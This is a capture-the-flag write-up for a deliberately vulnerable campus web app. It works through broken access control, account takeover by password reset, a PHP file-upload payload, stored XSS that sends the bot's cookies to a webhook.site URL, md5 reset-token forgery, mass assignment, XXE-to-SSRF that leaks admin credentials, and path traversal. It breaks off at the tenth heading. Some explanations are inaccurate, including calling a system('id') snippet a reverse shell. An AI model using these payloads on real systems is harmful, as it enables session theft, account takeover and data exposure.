## as always, first thing first we must interact with the web app so we can get all the recon to retrieve the vulns:

<p align="center">
  
</p>

so here we are seeing a sign in, with forum and agenda and other staff, while my role is just a guest. lets see whats in the robots.txt

<p align="center">
  
</p>

now we have something, the robots.txt disallowing the valueable endpoints but first we need to see as a guest what we can do, is there something broken? let's find out. i went to the forum and i noticed something about student, staff...

## First vulnerability -- BAC (Broken Access Control)

<p align="center">
  
</p>

i clicked to scheduled maintenance, and there is view profile, oh that easy as guest i can see internal data of a user?

<p align="center">
  
</p>

i clicked it then i found the first flag:

```text
Flag: FLAG{1d0r_ur_pr0f1l3_1s_m1n3}
```

<p align="center">
  
</p>

here it shows that RBAC or BAC (Broken Access Control) is a mandatory part in the security of web, as an unauthenticated user i can see data that i shouldn't know. also it the bac it should also protects between user and user in sensitive data like (emails, private num, address home ...) or private note like in this example that Only visible to wil — supposedly, lets move on to the second vuln.

## Second vulnerability -- File Upload via Account Takeover (Student account)

after looking everything in the platform as guest there is nothing left us, so we need to trigger the sign in and and see what actually can we make, my thinking went to password reset flow, in the same page `/forum` we can see a student that reclaiming he is not changing the password, my eyes in this specific target.

<p align="center">
  
</p>

as my previous vulnerability, i can see profiles as a guest that means his email shown publicly.

<p align="center">
  
</p>

now we know his email, only step left is the password to login, lets try to forget password and see the logic backend how it handles, is it magic link, sspr, or another method

<p align="center">
  
</p>

if we click sent.

<p align="center">
  
</p>

we can edit the password, and thats a problem because of Token generation: When you requested a reset, the system generated a unique, hidden security "token" (a long string of characters) like in the below:

<p align="center">
  
</p>

The system embedded that token into the button or link sent to your email, Clicking that link proved to the system that you own the email address associated with the account, Because your identity was verified by the link, the system opened this specific web page to let you overwrite the old password directly, so we are in.

<p align="center">
  
</p>

after i am in, we successfully takeover account student which previously will have restricted access, but we discovery new things, as `/agenda`

<p align="center">
  
</p>

or in `/forum` we can create post or search for something.

<p align="center">
  
</p>

or we can edit the profile user, we should look for something we can interact with server like reverse shell.

<p align="center">
  
</p>

so actually we can upload an avatar to the server, this means we have a connection. but are they checking the parsing or no.

<p align="center">
  
</p>

so we created a basic reverse shell in php:

``` text
cat << 'EOF' > payload.php
<?php echo system('id'); ?>
EOF
```

after we uploaded, it works and we get the flag:


<p align="center">
  
</p>

```text
Flag: FLAG{unr3str1ct3d_upl0ad_g0_brrr}
```

Note that the script is just a mimic to the real scenarios how reverse shell works, the connection i make is just an example. i checked in my terminal and i didnt receive any shell, the vulnerability shows you how reverse shell works only.


## Third vulnerability -- Stored XSS (Cross Site Scripting)

back to `Forum` there is option to make a new post, new post has a title and a content, and they mention there is a automated bot checking every new post

<p align="center">
  
</p>

and there is a hint:
``` text
🛡️ Every new post is opened by our automated moderation bot for review, usually within a minute.
```

so it comes to my mind this is an xss and its obviously a stored one cuz of the target, and its the bot, so i went to comment on other blog and try to xss.

<p align="center">
  
</p>

then BOOM:

<p align="center">
  
</p>

so here we found xss, but how can we retrieve the flag? here it came an idea to let the bot visit a webhook so we can steal his cookies, if we can get his cookies then we can get his account. so i tried to create a webhook in the `webhook.site`, so i make a simple script here:

```text
<script>
var webhookUrl = "2874514b-18c5-48eb-91bb-c0371cb9b98c"; 
var victimCookies = document.cookie;
fetch(webhookUrl + "?c=" + encodeURIComponent(victimCookies));
</script>
```
<p align="center">
  
</p>

after that the bot will visit the link, and then we can get his cookies, and we found the flag:

<p align="center">
  
</p>

```text
Flag: FLAG{xss_st0r3d_1s_n0t_4_f34tur3_w1l}
```
## Fourth vulnerability --  Insecure Password Reset

back to password flow, in the `/forum`, there is a hint about forgot password its just a hardcoded md5 i the reset one... let's focus on this target.

<p align="center">
  
</p>

we took the email's victim, and lets try to see if we can reset also the pass as `jdoe`.

<p align="center">
  
</p>

and its indeed! they let me to reset the password, so likely the server doesnt check the url is front side what checks it, if we decode the token or encode it the email to md5 we will see the same value.

<p align="center">
  
</p>

and if we encode the token to md5 its the same value as in the url:

<p align="center">
  
</p>

so we will continue and we put a new password and we successed.

<p align="center">
  
</p>

we got in, but where is the flag, where it could be?

<p align="center">
  
</p>

normally to this event, it shows that the importance of server side check and tokenization. so it would be in profile, specially in change password. and we found it:

<p align="center">
  
</p>

```text
Flag: FLAG{r3s3t_t0k3n_w4s_just_md5_lol}
```

let's move on the next vulnerability.

## Fifth vulnerability -- hidden api endpoint

in this section we will discover the importance of endpoints or API specifically, i went back to robots.txt, and i found endpoints are disallowed, some of them were foribdden, some of them are redirections, not exists

<p align="center">
  
</p>

but one of them is public and it shouldn't be, and its `/api/grades`, i access to it and found it:

<p align="center">
  
</p>

```text
Flag: FLAG{md5_1s_4_n4m3pl4t3_n0t_4_l0ck}
```

## Sixth vulnerability -- Mass Assignment

i love this one, in this vulnerability we will see if can manipulate roles or not, as student role my hands are tight, i can do anything else, so we need a higher role.

<p align="center">
  
</p>

our target is the next role, campus staff. i saw earlier a hint in the `/staff` endpoint:

<p align="center">
  
</p>

if you can see, they said we can try `PATCH /api/profile`, but how we can do it ? we need a tool to edit the request, and here it comes `BurpSuite`, with burpsuite we can manipulate request as we want. and i will show you steps how to do it:

<p align="center">
  
</p>

this is the interface of burp, i am already using it in the beginning of project thats why you are seeing so many request, anyway we just need a normal GET method thats in the `/`, after that click `ctrl + R` to send it to Repeater, what is repeater?

`Repeater: you can manually edit and resend individual HTTP or WebSocket requests without intercepting them in your browser. It is the best tool for probing input-based vulnerabilities, testing multi-step processes, and analyzing server responses.`

<p align="center">
  
</p>

as you can see, 200 OK in the response request, but we need to to edit the path to `/api/profile` so i switched it:

<p align="center">
  
</p>

something is wrong right? yes its the method, there are method in the http protocol and we need to follow up, there are `GET`, `POST`, `PATCH`, `OPTIONS`, `DELETE` and there is a new method called `QUERY` in http/3, all we need is PATCH so we can update our role.

<p align="center">
  
</p>

still, we forgot to add the body, where we need to manipulate our role, so here is the final payload:

<p align="center">
  
</p>

good, that 200 OK feels so good, so we lets in browser what actually we can do:

<p align="center">
  
</p>

as you can see, we are now staff campus, and there is a new section called `staff area` let's see what's in there:

<p align="center">
  
</p>

let's open the dashboard:

<p align="center">
  
</p>

we found the flag.

```text
Flag: FLAG{just_p4tch_y0ur_0wn_r0l3_lol}
```

## Seventh vulnerability -- XXE leading to SSRF

back to agenda, where we need to make a payload in xml file to find remaining flags, but the vulnerability method i dont know which one, is it xxe to rce or xxe to sqli, or xxe to reverse shell... 
it was a bit misleading but after i got the hint inside the `/staff/dashboard` 

<p align="center">
  
</p>

it was all about server side request forgery. that's my target now. but which server or endpoint i should i interact is it `localhost:4942` (our main site) or `localhsot:8090` (pocketbase), and in the `/forum` a pinned blog said that there is an ongoing ticket in internal?

<p align="center">
  
</p>

after i visted pocketbase via /staff/dashboard endpoint, i know for sure thats where i need to focus on, there is a direct link to the server pocketbase:

<p align="center">
  
</p>

i opened it, then it shows me a login page where i should trigger.

<p align="center">
  
</p>

 but first we need to get creds so here where ssrf should step aside for the endpoint, and the endpoint is `/internal`. so i browse it and it returns with:

<p align="center">
  
</p>

the promise endpoint is `/internal/config`, but we find a bit problem we can't get it.

<p align="center">
  
</p>

so we tried to do xml external entity can leads to server side request forgery, we made a simple payload in xml,they are already giving us the expected format. so the payload is:

```xml
<?xml version="1.0"?>
<!DOCTYPE agenda [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:4942/internal/config">
]>
<agenda>
  <event>
    <title>&xxe;</title>
    <date>2042-01-15</date>
  </event>
</agenda>
```

so we uploaded the xml external entity, and it works!

<p align="center">
  
</p>

- response:

```json
{"jwt_secret":"42network","pb_admin_email":"admin@42network.local",
"pb_admin_password":"Darkly42Admin!","app_version":"1.0.0",
"campus":"wilcity","darkly_flag":"FLAG{d3fus3dxml_n3xt_spr1nt_pr0m1s3}"}
```

```text
Flag: FLAG{d3fus3dxml_n3xt_spr1nt_pr0m1s3}
```

we secured a flag. and notice that we got also credentials of pocketbase:

```json
"pb_admin_email":"admin@42network.local",
"pb_admin_password":"Darkly42Admin!"
```
That's what we will focus on the next vulnerability.

## Eighth vulnerability -- Privilege Escalation via PocketBase

so after i logged in as admin from the leaked credentials, i found so much data!

<p align="center">
  
</p>

as you can see, it listed me all the users are in the database, also the collection, if we try to click our selves:

<p align="center">
  
</p>

so i can edit my role as i want and also anything, i tried to switch my role from cadet to god and switch the level:

<p align="center">
  
</p>

and its done !

<p align="center">
  
</p>

there is a new entity in the sidebar named by admin, we need to look for the flag,i checked it i found only the old flag.

<p align="center">
  
</p>

if you noticed they put always a link of `pocketbase /_/`, what if the 9th flag is there ? let's search up in every collections, so i went to `internal_audit` collection and found what:

<p align="center">
  
</p>

```text
Flag: FLAG{th3_und3rsc0r3_sl4sh_kn0ws_th3_w4y}
```

we found the flag, and 2 are left let's hunt them.

## Ninth vulnerability -- Local File Inclusion or known as LFI.

looking back to the endpoint `/project`, i found in the source page something:

<p align="center">
  
</p>

so we tried to see what's in faq_darkly.pdf and :

<p align="center">
  
</p>

we noticed that it's just a placeholder but let's see if we can hit the `/etc/passwd`:

<p align="center">
  
</p>

it returns forbidden 403, can  path traversal works?

<p align="center">
  
</p>

it works, nut 404 not found, hm so we need to see in a different angle here, i noticed something while i am doing recon in this vulnerability the endpoint is very restricted, but look at the response headers:

<p align="center">
  
</p>

as you can see, you will noticed that there is headers of `x-backup`
```text
x-backup-schedule: daily@03:00
x-backup-dest: localhost:/opt/pocketbase/pb_data
x-backup-exclude: data/private_notes.txt
x-last-backup: 2024-12-01T03:00:00Z
```
so could flag be in the private_notes? likely but i am not sure it could be there, so let's test it, 

<p align="center">
  
</p>

hm didnt work, but wait let's replace /data with ..

<p align="center">
  
</p>

okay we hit again forbidden, what if we minus the depth ?

<p align="center">
  
</p>

okay we hit the jackpot!!!!! we found the flag.

```text
Flag: FLAG{d0t_d0t_sl4sh_4ll_th3_w4y_d0wn}
```

Let's move on the next vulnerability.

## Tenth vulnerability --